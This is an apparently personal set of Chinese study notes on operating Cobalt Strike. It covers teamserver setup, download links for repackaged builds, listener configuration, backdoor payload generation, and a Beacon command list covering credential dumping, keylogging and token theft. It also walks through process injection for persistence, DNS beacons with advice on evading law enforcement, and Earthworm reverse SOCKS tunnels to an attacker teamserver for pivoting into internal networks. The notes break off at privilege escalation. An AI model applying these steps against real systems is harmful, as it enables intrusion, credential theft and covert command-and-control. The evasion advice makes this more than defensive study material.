

## CS参考文档

+ 配置windows 10的java环境:[Java环境配置](https://blog.csdn.net/guojunwu1977/article/details/123211980?ops_request_misc=&request_id=&biz_id=102&utm_term=win10 配置 Java环境&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-123211980.142^v94^control&spm=1018.2226.3001.4187)

+ CobaltStrike安装：[CobaltStrike安装](https://blog.csdn.net/Aluxian_/article/details/127860472?ops_request_misc=%7B%22request%5Fid%22%3A%22169581182816800180618811%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=169581182816800180618811&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-127860472-null-null.142^v94^control&utm_term=CobaltStrike安装&spm=1018.2226.3001.4187)

+ CobaltStrike使用：[CobaltStrike使用](https://zhuanlan.zhihu.com/p/359251293)

+ CobaltStrike笔记：[神兵利器](https://blog.csdn.net/qq_26091745/category_12205004.html)

+ CobaltStrike命令行：[CobaltStrike命令行](https://www.bilibili.com/video/BV1kW4y1b7WC/?spm_id_from=333.1007.top_right_bar_window_history.content.click)

+ CobaltStrike视频：[舟长的课](https://www.bilibili.com/video/BV1ng411r7jr/?spm_id_from=333.1007.top_right_bar_window_history.content.click&vd_source=1e325091774aa31c4dcd65d8667c69de)、[方舟长的集](https://space.bilibili.com/282616786/channel/seriesdetail?sid=2262497)

+ CobaltStrike官网：https://www.cobaltstrike.com/

## 1. CS介绍

CobaltStrike是一款渗透测试神器，被业界人称为CS神器。CobaltStrike分为客户端与服务端，服务端是一个，客户端可以有多个，可被团队进行分布式协团操作。

CobaltStrike集成了端口转发、服务扫描，自动化溢出，多模式端口监听，windows exe 木马生成，windows dll 木马生成，java 木马生成，office 宏病毒生成，木马捆绑。钓鱼攻击包括：站点克隆，目标信息获取，java 执行，浏览器自动攻击等等强大的功能！

## CS安装

+ 环境要求：需要安装Java环境 需要开启服务端和客户端，可以在Windows或者Linux系统上使用

+ 汉化版 ：https://pan.baidu.com/s/1FPOU9Qn-uGbrO_Ndre2thg?pwd=fnmw    提取码：fnmw

+ 英文版：https://pan.baidu.com/s/1OzsPz8vzEunZW35Oqdq2aw?pwd=raf2     提取码：raf2

## 解压文件夹

~~~ shell
┌──(hzj㉿kali)-[~]
└─$ unzip cs4.4.zip   
~~~

## 启动CS

### 出现问题

~~~ shell
┌──(root㉿kali)-[/home/hzj/cs4.4]
└─# ./teamserver 172.16.5.121 12345  
zsh: 权限不够: ./teamserver
~~~

~~~ shell
┌──(root㉿kali)-[/home/hzj/cs4.4]
└─# ./cobaltstrike                 
zsh: 权限不够: ./cobaltstrike
~~~

#### 原因

+ 权限不够

#### 解决方法

~~~ shell
┌──(root㉿kali)-[/home/hzj/cs4.4]
└─# chmod u+x teamserver  
~~~

~~~ shell
┌──(root㉿kali)-[/home/hzj/cs4.4]
└─# chmod u+x cobaltstrike
~~~

### 启动服务端

~~~ shell
┌──(root㉿kali)-[/home/hzj/cs4.4]
└─# ./teamserver 192.168.164.129 647561  #192.168.164.129是公网ip,也可用127.0.0.1代替本机ip  后面密码是647561
[*] Will use existing X509 certificate and keystore (for SSL)
[*] Loading properties file (/home/hzj/cs4.4/TeamServer.prop).
[!] Properties file (/home/hzj/cs4.4/TeamServer.prop) was not found.
[+] Team server is up on 0.0.0.0:12345
[*] SHA256 hash of SSL cert is: 9c296f85a4908e052a6329852dbf340e8c13ae02a5b13ed1ac72285b5857198e
~~~

### 启动客户端

~~~ shell
┌──(root㉿kali)-[/home/hzj/cs4.4]
└─# ./cobaltstrike
~~~

+ 启动前的客户端

这里host填kali的ip，密码就是刚刚我们启动的密码。

+ 启动后的客户端

## 2. [Listener(监听器)介绍](https://blog.csdn.net/qq_26091745/article/details/98101150)

### Cobaltstrike listener简介

Listener(监听器):专门用于对其他对象身上发生的事件或状态改变进行监听和相应处理的对象,当被监视的对象发生情况时,立即采取相应的行动。
在许多的渗透测试工具中，例如empire，metasploit，cobaltstrike中都有listener的存在。大家可以简单地理解为listener就是用来接收目标主机权限的模块。

### Cobaltstrike listener创建

Cobaltstrike用是CS4.4版本，内置了八种Listener，通过点Cobaltstrike的listener图标弹出相应的窗口，然后点add按钮添加listener然后配置相应的listener

~~~ tex
Beacon DNS
Beacon HTTP
Beacon HTTPS
Beacon SMB
Beacon TCP
External C2
Foreign HTTP
Foreign HTTPS
~~~

beacon为cs内置监听器,也就是说,当我们在目标系统成功执行payload以后,会弹回一个beacon的shell给cs
foreign主要是提供给外部使用的一些监听器,比如你想利用cs派生一个meterpreter或者armitage的shell回来,来继续后面的内网渗透,这时就选择使用外部监听器

#### [Beacon  TCP](https://www.bilibili.com/video/BV1Sd4y1w72c/?spm_id_from=333.1007.top_right_bar_window_history.content.click)

~~~ tex
Cobalt Strike是一款针对红队渗透测试和威胁模拟的专业工具，而Beacon则是Cobalt Strike中用来与受感染系统进行通信的模块之一。Beacon可以通过多种协议进行通信，其中TCP协议是其最常用的通信协议之一。

使用Beacon TCP时，攻击者首先需要在目标系统上成功植入Beacon后门程序。一旦Beacon被植入并启动，它会尝试连接Cobalt Strike Team Server以便接收命令和发送数据。攻击者可以通过Cobalt Strike控制台对Beacon进行管理和控制，执行各种后渗透操作，比如文件操作、进程管理、权限提升、数据传输等。

Beacon TCP主要特点包括低调性（通过TCP流量伪装成合法流量）、灵活性（可根据需要定制通信频率、端口等参数）和稳定性（支持长时间稳定运行）。同时，Cobalt Strike还为Beacon TCP提供了丰富的扩展功能，比如Sleep控制、Malleable C2等，从而增强了其适应不同网络环境和绕过安全设备的能力。
~~~

配置Beacon TCP

+ 点Cobalt Strike的listener图标弹出相应的窗口，然后点add按钮添加listener然后配置相应的listener如下图：

~~~ tex
0.0.0.0是一个保留的IPv4地址，通常用于表示“任意地址”或“未指定地址”。在特定情况下，这个地址可以有不同的含义：

在TCP/IP网络编程中，服务器程序在绑定套接字时可以选择使用0.0.0.0作为监听地址，表示该服务器将接受来自任意本地地址或者任意网络地址的连接请求。

在路由表中，0.0.0.0通常表示默认路由，即当没有更匹配的路由规则时，数据包将被发送到这个默认路由所指示的网关进行转发。
~~~

连接Beacon TCP的payload:

+ 点Attacks后点Packages然后点Windows Executable(S)再配置相应的payload如下最后生成对应的exe文件

+ 注入到受感染主机后，当受感染主机点击运行相应的exe文件后服务器server端通过运行相应的命令连接对应的Beacon：

~~~ shell
connect [targetIP] 或 connect [targetIP][port]
//targetIP指的是目标主机的IP;port指的是配置Beacon TCP的listener时设置的端口
~~~

断连对应的Beacon:

~~~ shell
unlink [IP address][pid]
//IP address指的是目标主机IP;pid指的是相应的Beacon进程的PID;
~~~

#### [Beacon  SMB](https://www.bilibili.com/video/BV1Sd4y1w72c/?spm_id_from=333.1007.top_right_bar_window_history.content.click)

~~~ tex
使用Beacon SMB时，攻击者首先需要在目标系统上成功植入Beacon后门程序。一旦Beacon被植入并启动，它会尝试利用SMB协议与Cobalt Strike Team Server进行通信，并接收命令以执行各种后渗透操作。

Beacon SMB的优点之一是其能够绕过网络安全设备，因为SMB流量在企业网络中通常是合法且常见的。同时，Beacon SMB还支持使用域凭证进行认证，这使得攻击者可以更容易地模拟合法用户的行为，进一步增加了植入后门的成功率。

Cobalt Strike为Beacon SMB提供了许多自定义选项和功能，例如对Malleable C2的支持，可以定制化SMB协议的通信特征，以避开安全设备的检测。此外，Beacon SMB也支持通过SMB协议执行文件操作、远程执行命令等操作，从而实现对目标系统的控制和管理。

SMB（Server Message Block）是一种用于在计算机之间共享文件、打印机和其他资源的网络通信协议。在Cobalt Strike中，Beacon SMB利用SMB协议作为一种潜在的通信机制，以便与受感染系统进行交互。

当使用Beacon SMB时，Cobalt Strike会模拟SMB客户端与服务器进行通信，建立类似于合法SMB流量的连接。这种通信可能涉及以下几个步骤：

连接建立：攻击者的Cobalt Strike Team Server充当SMB服务器，Beacon后门程序则充当SMB客户端，尝试向Team Server发起SMB连接请求。

认证过程：如果需要，Beacon SMB可以使用合法或伪装的域用户凭据对SMB服务器进行认证，获取访问权限。

命令执行：一旦建立了SMB连接，Cobalt Strike控制台可以通过该连接向Beacon发送各种命令，比如文件操作、远程执行命令等。Beacon接收到命令后执行相应的操作，并将结果返回给Cobalt Strike控制台。

数据传输：除了命令执行外，Beacon SMB还可以用于在攻击者和目标系统之间进行数据传输，比如上传/下载文件等。

Beacon SMB的原理在于利用SMB协议的特性，将其转化为一种C2（Command and Control）通信机制，从而实现对目标系统的操纵和控制。同时，Beacon SMB会尝试模仿合法SMB流量，以规避安全设备的检测，提高攻击成功率。
~~~

+ 点Cobalt Strike的listener图标弹出相应的窗口，然后点add按钮添加listener然后配置相应的listener如下图：

Beacon SMB通信原理：

+ 通过通信管道进行连接通信，即上面标记的管道名对应的通信管道

连接Beacon SMB的payload:

+ 点Attacks后点Packages然后点Windows Executable(S)再配置相应的payload如下最后生成对应的exe文件

+ 注入到受感染主机后，当受感染主机点击运行相应的exe文件后服务器server端通过运行相应的命令连接对应的Beacon:

~~~ shell
link [target][pipe] 或者 link [target]
//target指的是对应主机的IP;pipe指的是相应的SMB的管道名称
~~~

#### [External C2](https://www.bilibili.com/video/BV17V4y1H7ZT/?spm_id_from=333.880.my_history.page.click&vd_source=1e325091774aa31c4dcd65d8667c69de)

~~~ tex
C2指的是control & command，即指的是谁控制这个木马

External C2（Command and Control）是指外部命令和控制的缩写，通常用于描述恶意软件或攻击者将受感染的系统与外部服务器进行通信以接收指令并传送数据的过程。外部C2允许攻击者远程控制受感染的系统，执行各种操作，例如窃取敏感信息、植入其他恶意软件或发起网络攻击等。对于网络安全来说，检测和防范外部C2通信是非常重要的一环
~~~

#### [Foreign HTTP](https://www.bilibili.com/video/BV17V4y1H7ZT/?spm_id_from=333.880.my_history.page.click&vd_source=1e325091774aa31c4dcd65d8667c69de)

~~~ tex
Cobalt Strike中的"Foreign HTTP"是指Cobalt Strike团队所开发的一种功能，它允许用户在Cobalt Strike的Beacon载荷中使用外部HTTP服务器来进行通信。这使得攻击者可以绕过目标网络防御设施，通过外部HTTP服务器与受感染的系统进行通信，从而实现对目标系统的远程控制和数据交换。这种方法可以增加攻击的隐蔽性和灵活性，因为攻击者不再局限于受感染系统和Cobalt Strike服务器之间的直接通信

在Cobalt Strike中，"Foreign HTTP"对应的stager是windows/beacon_http/reverse_foreign。这个stager允许Beacon载荷与外部HTTP服务器进行通信，从而绕过网络防御设施。
~~~

同时这里也可以配合<code>Metasploit</code>服务器使用，如下：

#### [Foreign HTTPS](https://www.bilibili.com/video/BV17V4y1H7ZT/?spm_id_from=333.880.my_history.page.click&vd_source=1e325091774aa31c4dcd65d8667c69de)

原理同<code>Foreign HTTP</code>，区别只在<code>HTTP</code>与<code>HTTPS</code>的区别

### Cobaltstrike listener配置

选择Cobaltstrike–>Listener,随后输入Listener名字并选择要使用的Listner类型，配置好外网IP和端口(不能冲突)点击save保存。在以后生成Payload的过程中即可使用该监听器。

## 3. Cobaltstrike 生成后门

### Payload概念

Payload在渗透测试中可简单理解为一段漏洞利用/植入后门的代码或程序。

### Cobaltstrike生成后门

Attacks ->Packages

记录下红框中三个生成后门的方式

#### Payload Generator

该模块可以生成n中语言的后门Payload，包括C,C#,Python,Java,Perl,Powershell脚本，Powershell命令，Ruby,Raw，免杀框架Veli中的shellcode等等…

 

渗透Windows主机过程中Powershell和Powershell Command方便易用且可逃避一下杀毒软件（AV）的查杀

以Powershell Command为例，生成的payload为一串命令，只要在主机上执行这一串命令（主机需安装Powershell），cs即可收到主机的beacon

#### Windows Excutable/Windows Excutable(s)

Windows Excutable生成的后门是Windows可执行文件，如exe，DLL

exe文件运行后，CS即可收到目标主机的会话；至于DLL可使用针对DLL的相关攻击手法

带有生成出的是stageless版本（无状态Windows后门木马），下面简单说下这个无状态木马的使用方法。一般使用无状态木马的网络环境是这样的

首先你需要让一台主机作为中转器，配合无状态木马使用

这里选择中转器的监听器生成木马。需要注意–如果开启了防火墙会产生一个Windows安全警报。因此最好提前用cmd添加一个防火墙放行规则或关闭防火墙，随后便可将无状态的木马上传到内网的其他机器运行后返回一个会话

## 4. [Beacon详解](https://blog.csdn.net/qq_26091745/article/details/98103437)

#### Beacon命令

配置好Listner，让目标机执行我们的Payload/后门程序后，即可发现目标机已经上线

右键目标interact使用Beacon，使用其执行各种命令

+ 注意：beacon中不能直接输入cmd命令，比如要让目标机执行ipconfig这条cmd命令，对应的beacon命令是shell ipconfig,新人不要在这里踩坑哈

+ 其他的beacon命令，可在beacon中输入help获取~

下面是汉化的一些命令：

~~~ tex
Beacon Commands
    Command                   Description
    -------                   -----------
    browserpivot              注入受害者浏览器进程
    bypassuac                 绕过UAC
    cancel                    取消正在进行的下载
    cd                        切换目录
    checkin                   强制让被控端回连一次
    clear                     清除beacon内部的任务队列
    connect                   Connect to a Beacon peer over TCP
    covertvpn                 部署Covert VPN客户端
    cp                        复制文件
    dcsync                    从DC中提取密码哈希
    desktop                   远程VNC
    dllinject                 反射DLL注入进程
    dllload                   使用LoadLibrary将DLL加载到进程中
    download                  下载文件
    downloads                 列出正在进行的文件下载
    drives                    列出目标盘符
    elevate                   尝试提权
    execute                   在目标上执行程序(无输出)
    execute-assembly          在目标上内存中执行本地.NET程序
    exit                      退出beacon
    getprivs                  Enable system privileges on current token
    getsystem                 尝试获取SYSTEM权限
    getuid                    获取用户ID
    hashdump                  转储密码哈希值
    help                      帮助
    inject                    在特定进程中生成会话
    jobkill                   杀死一个后台任务
    jobs                      列出后台任务
    kerberos_ccache_use       从ccache文件中导入票据应用于此会话
    kerberos_ticket_purge     清除当前会话的票据
    kerberos_ticket_use       从ticket文件中导入票据应用于此会话
    keylogger                 键盘记录
    kill                      结束进程
    link                      Connect to a Beacon peer over a named pipe
    logonpasswords            使用mimikatz转储凭据和哈希值
    ls                        列出文件
    make_token                创建令牌以传递凭据
    mimikatz                  运行mimikatz
    mkdir                     创建一个目录
    mode dns                  使用DNS A作为通信通道(仅限DNS beacon)
    mode dns-txt              使用DNS TXT作为通信通道(仅限D beacon)
    mode dns6                 使用DNS AAAA作为通信通道(仅限DNS beacon)
    mode http                 使用HTTP作为通信通道
    mv                        移动文件
    net                       net命令
    note                      备注       
    portscan                  进行端口扫描
    powerpick                 通过Unmanaged PowerShell执行命令
    powershell                通过powershell.exe执行命令
    powershell-import         导入powershell脚本
    ppid                      Set parent PID for spawned post-ex jobs
    ps                        显示进程列表
    p**ec                    Use a service to spawn a session on a host
    p**ec_psh                Use PowerShell to spawn a session on a host
    psinject                  在特定进程中执行PowerShell命令
    pth                       使用Mimikatz进行传递哈希
    pwd                       当前目录位置
    reg                       Query the registry
    rev2self                  恢复原始令牌
    rm                        删除文件或文件夹
    rportfwd                  端口转发
    run                       在目标上执行程序(返回输出)
    runas                     以另一个用户权限执行程序
    runasadmin                在高权限下执行程序
    runu                      Execute a program under another PID
    screenshot                屏幕截图
    setenv                    设置环境变量
    shell                     cmd执行命令
    shinject                  将shellcode注入进程
    shspawn                   生成进程并将shellcode注入其中
    sleep                     设置睡眠延迟时间
    socks                     启动SOCKS4代理
    socks stop                停止SOCKS4
    spawn                     Spawn a session 
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another PID
    ssh                       使用ssh连接远程主机
    ssh-key                   使用密钥连接远程主机
    steal_token               从进程中窃取令牌
    timestomp                 将一个文件时间戳应用到另一个文件
    unlink                    Disconnect from parent Beacon
    upload                    上传文件
    wdigest                   使用mimikatz转储明文凭据
    winrm                     使用WinRM在主机上生成会话
    wmi                       使用WMI在主机上生成会话
    argue                      进程参数欺骗

~~~

#### 多种Beacon

以下beacon使用前均需要开启对应的Listener

##### ①http beacon&tcp beacon

这两种beacon比较普通，主机与teamserver的通信协议不同

##### ②SMB beacon

官网介绍: SMB Beacon使用命名管道通过父级Beacon进行通讯，当两个Beacons链接后，子Beacon从父Beacon获取到任务并发送。
因为链接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，绕防火墙时可能发挥奇效。
这张图很好的诠释了SMB beacon的工作流程

、

+ 这种beacon要求具有SMB Beacon的主机必须接受端口445上的连接.

派生一个SMB Beacon方法：在Listner生成SMB Beacon>目标主机>右键> spawn as>选中对应的Listener>上线
或在beacon中使用命令spawn SMB（为我的smb listener名字）

运行成功后外部可以看到∞∞这个字符，这就是派生的SMB Beacon。

当前是连接状态，你可以Beacon上用unlink 命令断开

现在是非连接状态，先按图表显示关系，然后可看到是断连状态

现在是非连接状态，你可以Beacon上用link 命令连接

这种beacon在内网横向渗透中运用的很多，在内网环境中可用ipc $生成的SMB Beacon上传到目标主机并执行后，目标主机不会直接建立连接。为了与目标主机进行连接，需要使用链接命令（link command）手动连接

~~~ plain
其中，ipc $ 是一种在Windows系统中使用的命名管道（Named Pipe）的路径表示法。它是用于进行进程间通信（IPC）的一种机制。通过ipc $，可以在本地或远程主机上创建和连接到命名管道，以实现进程之间的数据传输和通信。在上述语境中，ipc $ 可能指的是通过命名管道来实现与目标主机的通信。
~~~

##### ③DNS Beacon

DNS Beacon 在绕过防火墙 权限维持上非常有效，DNS beacon 可谓是是最受欢迎的Cobalt Strike功能之一。 官网给出的原理示意图如下

使用DNS Beacon首先得有一个域名，域名建议用国外的，省去一些不必要的麻烦，也防止被查水表。。。域名使用一些通用平常的即可，整个配置过程配置非常简单,一条A记录和几条NS记录即可

首先进入到域名管理界面，配置A记录指向服务器ip -->ns记录都指向A记录域名

配置好了可以用 nslookup 或者 dig +trace 来测试下 是否成功

如果返回的IP地址与你的服务器ip地址对应正确，就可配置dns beacon监听器了

Host那里最好填域名（A记录解析那个），不要填服务器的ip地址

然后确定填上ns记录 英文逗号隔开 ，然后生成后门测试效果

这时候主机栏上出现了一个黑屏的logo，经过一段时间的等待，目标主机即可上线。

##### ④SSH beacon

当内网有Linux时Cobalt Strike也是考虑到的提供了ssh连接，大家可以通过metasploit爆破内网的ssh账号密码，然后用目标机的beacon去连接就可以了。
目前有两种SSH Beacon连接方法

1.密码直接连接
Beacon命令: ssh [target:port] [user] [pass]

2.ssh密匙连接
ssh [target:port] [user] [/path/to/key.pem]
链接成功后，如图会出现一个子beacon

## 5.[菜单栏与视图](https://blog.csdn.net/qq_26091745/article/details/98109250)

### Cobaltstrike菜单栏

~~~ tex
1.新建连接
2.断开当前连接
3.监听器
4.改变视图为Pivot Graph(可以显示各个目标的关系)
5.改变视图为Session Table(会话列表)
6.改变视图为Target Table(目标列表)
7.查看凭据信息
8.查看文件下载
9.查看键盘记录
10.查看屏幕截图
11.生成无状态Beacon后门
12.java自签名程序攻击
13.生成office宏后门
14.生成脚本通过web传递(利用powershell，bitsadmin，regsvr32生成会话)
15.在Cobalt Strike的web服务上托管一个文件(提供一个文件下载)
16.管理Cobalt Strike上运行的web服务
17.帮助
18.关于
~~~

### Cobaltstrike视图

#### ①菜单4:Pivot Graph(拓扑图)

如图所示，该视图可以很清楚地查看各主机之间的关系，该视图在大规模内网渗透和APT中非常直观和实用。

#### ②菜单5:Session Table(会话列表)

这个视图是我们渗透测试中最为常用的，他主要显示的是当前所有的会话，会话的权限，会话运行在目标机上的pid等等
选择会话右键，会出现很多功能

~~~ tex
Interact:进入beacon

Access:执行
        dump hashes 获取hash
        Elevate  提权
        Golden Ticket 生成黄金票据注入当前会话
        MAke token  凭证转换
        Run Mimikatz 运行 Mimikatz 
        Spawn As 用其他用户生成Cobalt Strike侦听器
        
Explore:目标
        Browser Pivot 劫持目标浏览器进程
        Desktop(VNC)  桌面交互
        File Browser  文件浏览器
        Net View 命令Net View
        Port scan 端口扫描
        Process list 进程列表
        Screenshot 截图
        
Pivoting:中转
        SOCKS Server 代理服务
        Listener  反向端口转发
        Deploy VPN 部署VPN
        
Spawn:新的通讯模式并生成会话

Session:会话管理，删除，心跳时间，退出，备注
~~~

#### ③菜单6:Target Table(目标列表)

本处显示的是在beacon中执行主机存活扫描/端口扫描后，探测出的存活的主机。

在本视图中，选择目标右键

如图，cs可以使用多种方式登录到目标主机（进行内网横向移动），如果多台服务器使用了同样的凭据，我们就可以使用此功能进行hash传递，拿下多台服务器权限

当然，其也带有端口扫描功能，可以扫描指定主机的端口。

[Cobaltstrike系列教程(五)凭据导出_cobalt strike 查看获得的凭据信息-CSDN博客](https://blog.csdn.net/qq_26091745/article/details/98305720)没看，因为在实际操作时需要更高的权限，即是提权

## 7.[文件/进程管理与键盘记录](https://blog.csdn.net/qq_26091745/article/details/98994400)

### 文件管理

#### ①基础管理

选择一个会话，右键选择<code>Explore -> File Browser</code>

最后发现响应正确：

其中Upload为上传一个文件 ，Make Directory为创建文件夹，List Drives为列出盘符，refresh为刷新；

#### ②下载文件

需要使用文件管理功能，然后右键download

再点击菜单栏上方的文件下载按钮查看下载的文件

点击sync files，配置保存路径即可保存文件到本地查看或者执行其他操作

#### ③执行或删除文件

执行文件点击execute后会弹出一个窗口，要求你输入要执行程序的参数，这边按你的要求填写就行，不需要参数的话就不填。

### 进程管理

#### ①进入进程管理

选择一个beacon会话并右键，<code>Explore --> Process List</code>

可看到已经返回主机的进程列表：

进程列表中 ，kill为关闭程序，refresh为刷新进程列表，inject则是把beacon注入进程，Log Keystrokes为键盘记录，Stea Token为窃取运行指定程序的用户令牌

#### ②进程注入

该功能可把beacon会话注入到另一程序之中，注入后即使原来的后门进程被关闭依然可手握目标机的权限

选择进程，点击inject，随后选择监听器，点击choose，即可发现Cobaltstrike弹回了目标机的一个新会话，这个会话就是成功注入到某进程的beacon

#### ③键盘记录

选择好进程后(可ctrl多选)，点击Log Keystrokes，然后再点击菜单栏上的“键盘记录”按钮

如图，成功get到目标机的键盘记录

## 8. 截图与浏览器代理

### 截图

选择一个<code>beacon</code>，右键，目标–>屏幕截图

然后点击菜单栏上的“屏幕截图”按钮，如图，成功查看到截图

### 浏览器代理

选择一个<code>beacon</code>，右键，目标–>浏览器代理

配置好相关的端口信息后，点击开始，即可使用目标机的指定端口作为浏览器代理

随后<code>cobaltstrike</code>就会注入浏览器代理dll到进程中，我们通过配置我们服务器的IP,端口（本例中为123.207.x/x），即可使用目标机作为浏览器代理

## 9. 内置Socks与神器EW

### Socks概念

目前利用网络防火墙将组织内部的网络结构与外部网络如 INTERNET 中有效地隔离开来，这种方法正变得逐渐流行起来。这些防火墙系统通常以应用层网关的形式工作在网络之间，提供受控的 TELNET 、 FTP 、 SMTP 等的接入。 SOCKS 提供一个通用框架来使这些协议安全透明地穿过防火墙。
说的简单明了一点，在渗透测试中，我们使用socks技术，可以穿透进入目标机的内网，从而扩大我们的战果

### Cobaltstrike自带Socks功能

选择一个<code>beacon</code>，右键，中转–>SOCKS Server，或使用命令socks [port]

弹出一个窗口，按要求配置好代理端口

成功开启socks 4，连接我们teamserver的5126端口，即可进入目标机内网~

### Ew+SocksCap穿透目标机内网

**①Earthworm**

Ew(Earthworm)是一款当之无愧的内网穿透大杀器，应用的平台非常广泛，包括

~~~ shell
ew_for_Win.exe        适用各种Windows系统(X86指令集、X64指令集)        Windows7、Windows XP
ew_for_Linux32        各常见Linux发行版 (X86 指令集 CPU)        Ubuntu(X86)/BT5(X86)
ew_for_linux64        各常见Linux发行版 (X64 指令集 CPU)        Ubuntu(X64)/Kali(X64)
ew_for_MacOSX64        MacOS系统发行版 (X64 指令集)        苹果PC电脑，苹果server
ew_for_Arm32        常见Arm-Linux系统        HTC New One(Arm-Android)/小米路由器(R1D)
ew_mipsel        常见Mips-Linux系统 (Mipsel指令集 CPU)        萤石硬盘录像机、小米mini路由器(R1CM)
~~~

下面简单讲一下它的应用场景和命令

**正向socks v5服务器 【适用于目标机拥有一个外网IP】**

服务器端执行以下命令

~~~shell
ew.exe -s ssocksd -l 888
~~~

说明：服务器开启端口为888，SOCKS的代理。然后使用sockscap64添加这个IP的代理就可以使用了。

**反弹socks v5服务器 【适用于目标机器没有公网IP，但可访问内网资源】**
本地执行以下命令

~~~shell
ew.exe -s rcsocks -l 1008 -e 888
~~~

说明：该命令的意思是在我们公网VPS上添加一个转接隧道，把1080端口收到的代理请求转交给888端口。

服务器端执行以下命令

~~~ shell
ew.exe -s rssocks -d 2.2.2.2 -e 888
~~~

说明：该命令的意思是在服务器上启动SOCKS V5服务，并反弹到IP地址为2.2.2.2的服务器888端口上。

**二级网络环境（一）**

假设我们获得了右侧A主机和B主机的控制权
A主机配有2块网卡，一块连通外网，一块10.48.128.25只能连接内网B主机，无法访问内网其它资源。
B主机可以访问内网资源，但无法访问外网。

A.先上传ew到B主机，利用ssocksd方式启动888端口的SOCKS代理，命令如下：
ew -s ssocksd -l 888

B.上传ew到右侧A主机，运行下列命令：
ew -s lcx_tran -l 1080 -f 10.48.128.49 -g 888

说明：该命令意思是将1080端口收到的代理请求转交给B主机（10.48.128.49）的888端口。

C.可以通过访问A主机外网139.XXX.XX.113:1080来使用在B主机架设的socks5代理。

**二级网络环境（二）**
假设我们获得了右侧A主机和B主机的控制权限。
A主机没有公网IP，也无法访问内网资源。B主机可以访问内网资源，但无法访问外网。

这个操作分为4步，用到lcx_listen和lcx_slave命令：

A. 先上传ew 到左侧公网VPS上，运行下列命令：
ew –s lcx_listen –l 10800 –e 888
说明：该命令意思是在公网VPS添加转接隧道，将10800端口收到的代理请求转交给888端口。

B.上传ew到B主机，并利用ssocksd方式启动999端口的socks代理，命令如下：
ew -s ssocksd -l 999

C.上传ew 到A主机，运行下列命令：
ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.49 -g 999
说明：该命令意思是在A主机上利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来。

D. 返回我们公网VPS的CMD界面下，可以看到已经连接成功了。
现在就可以通过访问公网VPS地址 139.XXX.XX.113:10800来使用在B主机架设的socks5代理。

**三级网络环境**
三级网络环境在实际渗透中用的比较少，也比较复杂，现在我们来一个个的讲解下三级级联的用法。

假设渗透场景：
内网A主机没有公网IP但可以访问外网
B主机不能访问外网但可以被A主机访问、C主机可被B主机访问而且能够访问核心区域。

A.在左侧公网VPS上运行命令，将1080端口收到的代理请求转交给888端口：
ew -s rcsocks -l 1080 -e 888

B.在A主机上运行命令，将公网VPS的888端口和B主机的999端口连接起来：
ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.12 -g 999

C.在B主机上运行命令，将999端口收到的代理请求转交给777端口：
ew -s lcx_listen -l 999 -e 777

D.在C主机上启动SOCKS V5服务，并反弹到B主机的777端口上，命令如下。
ew -s rssocks -d 10.48.128.12 -e 777

E.在MY PC上可以通过访问公网VPS 139.XXX.XX.113:1080来使用在C主机架设的socks5代理。

整个数据流向是：SOCKS V5 → 1080 → 888 →999 →777 → rssocks

**实战场景**

本次测试目标机器没有公网IP，但可访问内网资源

1. 我们在teamserver上运行以下命令

~~~ shell
ew.exe -s rcsocks -l 1008 -e 888
~~~

接受888端口数据，然后转发到1008端口

2. 然后我们在目标机上传ew，然后在cs中执行

~~~ shell
ew.exe -s rssocks -d 2.2.2.2 -e 888（2.2.2.2为teamserver）
~~~

3. 随后，我们的teamserver就会显示连接成功

②使用SocksCap连接socks

根据自己的Windows版本以管理员模式运行SocksCap后
点击代理，然后添加自己teamserver的ip和刚刚转发出来的端口

在这里把代理切换成刚刚添加的

右键，添加一个exe文件，根据你的需求，添加要在socks隧道中运行的程序

选择程序，右键–>在代理隧道中运行选中程序，该程序即可通过socks进入目标内网

如图，为连入socks通道的cmd ping目标机的某内网ip

**在Kali中Metasploit使用socks通道**
1.使用cs搭建好socks4通道后，首先配置神器proxychains
在/etc/proxychains.conf配置文件中添加新的代理服务器。通过激活动态链设置，确保在不同的代理服务器之间能够正常切换。

~~~ shell
root@kali:~# cat /etc/proxychains.conf | grep -v "#"
dynamic_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000
socks4  172.16.0.20 1080  # socks4通道的IP及端口
~~~

然后在MSF中，配置socks4隧道即可让MSF进入目标机内网大杀四方
(2.2.2.2为teamserver的ip，1081为socks端口)

~~~ shell
msf exploit(ms08_067_netapi) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > set SRVHOST 2.2.2.2
msf auxiliary(socks4a) > set SRVPORT 1081
SRVPORT => 1081
msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) >
~~~

### 下载

[EW和SocksCap下载链接](https://pan.baidu.com/s/13t45euOJfLF4xedVfL0s1A)：提取码26az(工具已经没有了，过段时间重新找一个)

## 10. 安装扩展

### 扩展的加载

扩展是<code>Cobaltstrike</code>一个极为重要的模块，它有效地丰盈了<code>cobaltstrike</code>的功能
选择菜单栏的<code>CobaltStrike</code>–><code>脚本管理器</code>，点击<code>load</code>，然后选择cna扩展文件即可，旁边的unload为去除该扩展，reload为重新加载该扩展

[扩展的详情](https://mp.weixin.qq.com/s/CEI1XYkq2PZmYsP0DRU7jg)

## 11. [提权与横向移动](https://blog.csdn.net/qq_26091745/article/details/104045342) 

### 1. 提权

~~~ tex
